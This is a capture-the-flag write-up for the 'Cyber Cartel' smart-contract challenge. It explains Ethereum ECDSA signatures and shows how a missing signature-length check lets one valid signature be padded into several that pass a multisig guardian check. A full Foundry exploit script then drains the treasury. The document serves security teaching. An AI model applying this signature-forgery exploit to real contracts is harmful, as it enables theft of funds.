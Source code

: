 # Cyber Cartel

Author: JesJupyter ([X/Twitter](https://x.com/jesjupyter))

## Background

## Introduction
Malone, Wiz and Box recently robbed a billionaire and deposited their proceeds into a multisig treasury. And who is Box? The genius hacker behind everything. He's gonna rob his friends...


### ECDSA signing

In Ethereum and Solidity, digital signatures play a crucial role in verifying the authenticity of transactions and messages. These signatures stem from the ECDSA algorithm and are typically 65 bytes long and follow a specific structure known as the "Signature of Solidity."

The 65-byte signature is composed of three parts:

1. r (32 bytes): The first 32 bytes of the signature, representing the x-coordinate of the ephemeral public key.
2. s (32 bytes): The next 32 bytes, representing the signature proof.
3. v (1 byte): The final byte, used for recovery of the signer's public key.

The signature scheme used in Ethereum is based on the Elliptic Curve Digital Signature Algorithm (ECDSA) with the secp256k1 curve.

To extract r, s, and v from a signature in Solidity:

we can refer to the following Solidity Code in [Solidity by Example](https://solidity-by-example.org/signature/)

```solidity
    function splitSignature(bytes memory sig)
        public
        pure
        returns (bytes32 r, bytes32 s, uint8 v)
    {
        require(sig.length == 65, "invalid signature length");

        assembly {
            /*
            First 32 bytes stores the length of the signature

            add(sig, 32) = pointer of sig + 32
            effectively, skips first 32 bytes of signature

            mload(p) loads next 32 bytes starting at the memory address p into memory
            */

            // first 32 bytes, after the length prefix
            r := mload(add(sig, 32))
            // second 32 bytes
            s := mload(add(sig, 64))
            // final byte (first byte of the next 32 bytes)
            v := byte(0, mload(add(sig, 96)))
        }

        // implicitly return (r, s, v)
    }
```


## Analysis

### How to attack the `CartelTreasury`

To attack the `CartelTreasury` by draining all the funds, there are some relevant functions.

```solidity
    function doom() external guarded {
        payable(msg.sender).transfer(address(this).balance);
    }
    /// Dismiss the bodyguard
    function gistCartelDismiss() external guarded {
        bodyGuard = address(0);
    }    
```

Since `doom()` will send all funds to `msg.sender` which is the `bodyGuard`, we can't rely on it directly to drain all the funds.

Instead, since `gistCartelDismiss()` will set `bodyGuard` to `address(0)`, which means we can first call `gistCartelDismiss()` to dismiss the `bodyguard`, call `initialize()` to reset the `bodyGuard` back to `msg.sender`, and then call `doom()` to drain all the funds.

So, the steps to drain all the funds are:

1. Call `gistCartelDismiss()` from `bodyGuard` to dismiss the `bodyguard`.
2. Call `initialize()` to reset the `bodyGuard` back to `msg.sender`.
3. Call `doom()` to drain all the funds.

### How to let `bodyGuard` to call `gistCartelDismiss`

We can only rely on `bodyGuard` to call `gistCartelDismiss()` since `bodyGuard` is a trusted address. The only external call to `CartelTreasury` is in the function `propose` in `Bodyguard`.

```solidity
    function propose(Proposal memory proposal, bytes[] memory signatures) external {
        require(proposal.expiredAt > block.timestamp, "Expired");
        require(proposal.nonce > lastNonce, "Invalid nonce");

        uint256 minVotes_ = minVotes;
        if (guardians[msg.sender]) {
            minVotes_--;
        }

        require(minVotes_ <= signatures.length, "Not enough signatures");
        require(validateSignatures(hashProposal(proposal), signatures), "Invalid signatures");

        lastNonce = proposal.nonce;

        uint256 gasToUse = proposal.gas;
        if (gasleft() < gasToUse) {
            gasToUse = gasleft();
        }

        (bool success,) = treasury.call{gas: gasToUse * 9 / 10}(proposal.data);
        if (!success) {
            revert("Execution failed");
        }
    }
```

So the problem changes to how can we bypass the `validateSignatures` check in `propose` since only `msg.sender`(only 1 guardian) will not be enough to get `minVotes_`.

```solidity
    function validateSignatures(bytes32 digest, bytes[] memory signaturesSortedBySigners) public view returns (bool) {
        bytes32 lastSignHash = bytes32(0); // ensure that the signers are not duplicated

        for (uint256 i = 0; i < signaturesSortedBySigners.length; i++) {
            address signer = recoverSigner(digest, signaturesSortedBySigners[i]);
            require(guardians[signer], "Not a guardian");

            bytes32 signHash = keccak256(signaturesSortedBySigners[i]);
            if (signHash <= lastSignHash) {
                return false;
            }

            lastSignHash = signHash;
        }

        return true;
    }
    function recoverSigner(bytes32 digest, bytes memory signature) public pure returns (address) {
        bytes32 r;
        bytes32 s;
        uint8 v;
        assembly {
            r := mload(add(signature, 32))
            s := mload(add(signature, 64))
            v := byte(0, mload(add(signature, 96)))
        }
        return ecrecover(digest, v, r, s);
    }   
```

When we compare the `recoverSigner` with the example code we provided above, we notice `signature` length is not compared against 65 bytes. But `signHash` is calculated from the entire `signature` which could actually be longer than 65 bytes.

So, when we already have 1 valid 65 bytes signature, we can append more bytes to it to make it longer than 65 bytes and we can still generate the same `r`, `s`, `v` in `recoverSigner`. By doing so, we can forge multiple signatures from 1 valid one and pass the `validateSignatures` check.

### CTF Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Challenge} from "../src/Challenge.sol";
import "../src/CyberCartel.sol";
import "../src/Challenge.sol";

contract TestScript is Script {


    function run() public {
        Challenge challenge = Challenge(CHALLENGE_ADDRESS);
        uint256 deployerPrivateKey =  PRIVATE_KEY;
        address user = vm.addr(deployerPrivateKey);
        vm.startBroadcast(deployerPrivateKey);

        CartelTreasury cartel = CartelTreasury(payable(challenge.TREASURY()));
        BodyGuard bodyGuard = BodyGuard(cartel.bodyGuard());
        
        // create a proposal to call `gistCartelDismiss` and generate signatures
        BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
            expiredAt: uint32(block.timestamp) + 100,
            gas: 100000,
            nonce: 200,
            data: abi.encodeWithSelector(CartelTreasury.gistCartelDismiss.selector)
        });

        // Hash the proposal
        bytes32 proposalHash = bodyGuard.hashProposal(proposal);

        // Generate signature
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(deployerPrivateKey, proposalHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        // Get minVotes from bodyGuard, we set it to 5 for convenience
        uint8 minVotes = 5;

        // Generate an array of bytes with length equal to minVotes
        bytes[] memory signatures = new bytes[](minVotes);

        // Fill the array with signatures
        for (uint8 i = 0; i < minVotes; i++) {
            // Append a byte to the signature to make it unique
            bytes memory uniqueSignature = abi.encodePacked(signature, bytes1(i));
            signatures[i] = uniqueSignature;
        }

        // Sort the signatures array based on keccak256 hash
        for (uint8 i = 0; i < minVotes - 1; i++) {
            for (uint8 j = 0; j < minVotes - i - 1; j++) {
                if (keccak256(signatures[j]) > keccak256(signatures[j + 1])) {
                    bytes memory temp = signatures[j];
                    signatures[j] = signatures[j + 1];
                    signatures[j + 1] = temp;
                }
            }
        }

        bodyGuard.propose(proposal, signatures);
        cartel.initialize(user);
        cartel.doom();
        challenge.isSolved();

        vm.stopBroadcast();
    }
}

```










